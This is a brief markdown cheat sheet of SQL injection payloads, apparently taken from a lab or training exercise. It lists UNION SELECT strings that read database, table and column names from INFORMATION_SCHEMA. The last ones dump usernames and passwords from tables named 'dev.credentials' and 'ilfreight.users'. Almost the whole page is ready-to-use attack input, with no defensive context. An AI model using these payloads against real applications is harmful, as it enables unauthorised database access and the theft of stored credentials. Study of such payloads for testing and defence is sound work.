 ## Payloads

- To know available databases and their names
  > ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

- To know available tables in particular database (in this case 'dev')
  > cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

- To know availabe columns in a particular table (in this case 'credentials')
  > cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

- To dump data
  > cn' UNION select 1, username, password, 4 from dev.credentials-- -

cn' UNION select 1, username, password, 4 from ilfreight.users-- -
